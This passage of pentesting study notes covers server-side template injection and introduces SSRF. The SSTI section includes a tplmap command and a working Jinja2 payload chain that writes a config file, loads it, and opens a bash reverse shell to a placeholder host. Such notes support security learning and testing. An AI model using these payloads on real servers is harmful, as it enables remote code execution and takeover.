 For example take the code


![ref](https://imgur.com/GAO1km1.png)

This introduces a vulnerability, as it allows a hacker to inject template code into the website. The effects of this can be devastating, from XSS, all the way to RCE.

Note: Different template engines have different injection payloads, however usually you can test for SSTI using {{2+2}} as a test.


![ref](https://imgur.com/CdzYeHS.png)

Then use payload from payload all  the things to get lfi etc...n (look for template inclusion)

TPLMap can be use to automate the process.
https://github.com/epinna/tplmap  

	tplmap.py -u http://10.10.10.10:8080 -d 'name'

## Exploit the SSTI by writing an evil config file.
- evil config  

		{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

- load the evil config  

		{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

- connect to evil host  

		{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}

# SSRF
https://tryhackme.com/room/ssrf  
https://resources.infosecinstitute.com/topic/the-difference-between-cross-site-and-server-side-request-forgery/  
https://blog.doyensec.com/2019/07/22/jackson-gadgets.html  

Server-Side Request Forgery (SSRF) attacks are designed to exploit how a server processes external information. Some web applications may be designed to read information from or write information to a particular URL (like a REST API). If an attacker can modify the target URL, they can potentially exfiltrate sensitive information from the application or inject untrusted input into it.

In simpler terms, SSRF is a vulnerability in web applications whereby an attacker can make further HTTP requests through the server. An attacker can make use of this vulnerability to communicate with any internal services on the server's network which are generally protected by firewalls.

![ssrf_schema](https://portswigger.net/web-security/images/server-side%20request%20forgery.svg)

## SSRF Detection
- Is the webapp provide a way to enter a url via an input.
- Is it a `rest api` ?
- Is there any url in a params ?
